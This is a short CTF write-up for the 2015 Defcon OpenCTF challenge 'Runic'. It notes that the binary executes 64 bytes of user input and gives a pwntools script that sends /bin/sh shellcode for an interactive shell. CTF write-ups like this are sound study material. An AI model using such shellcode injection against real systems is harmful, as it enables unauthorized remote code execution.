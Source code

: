 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main function for Runic:

![Runic main](/assets/images/runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Exploitation

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

```python
import sys
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
```
